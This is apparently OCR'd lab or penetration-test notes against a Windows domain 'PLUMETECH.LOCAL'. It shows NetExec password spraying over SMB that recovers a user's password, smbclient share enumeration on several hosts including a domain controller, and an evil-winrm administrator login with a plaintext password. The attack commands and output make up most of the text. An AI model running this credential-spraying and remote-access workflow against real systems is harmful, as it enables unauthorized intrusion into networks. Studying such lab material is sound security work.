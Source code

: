 ```
<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"><img src="iisstart.png" alt="IIS" width="960" height="600" /></a>
</div>
</body>
</html>
```


```
$ nxc smb 10.0.10.29 -u sabrina martin jack alice -p ./2023-200_most_used_passwords.txt
[...]
SMB         10.0.10.29      445    CLI1             [+] PLUMETECH.LOCAL\alice:Demo@123
```


```
$ smbclient --workgroup 'PLUMETECH.LOCAL' -U 'alice%Demo@123' -L //10.0.10.29

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.0.10.29 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

┌──(kali㉿kali)-[~]
└─$ smbclient --workgroup 'PLUMETECH.LOCAL' -U 'alice%Demo@123' -L //10.0.10.29

┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.0.10.29 -u administrator -p theworldinyourhand

┌──(kali㉿kali)-[~]
└─$ smbclient -U 'alice%Demo@123' -L \\10.0.10.11
┌──(kali㉿kali)-[~]
└─$ smbclient -U 'alice%Demo@123' -L //10.0.10.11
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        CertEnroll      Disk      Active Directory Certificate Services share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.0.10.11 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

┌──(kali㉿kali)-[~]
└─$ smbclient -U 'alice%Demo@123' -L //10.0.10.12
session setup failed: NT_STATUS_LOGON_FAILURE
```
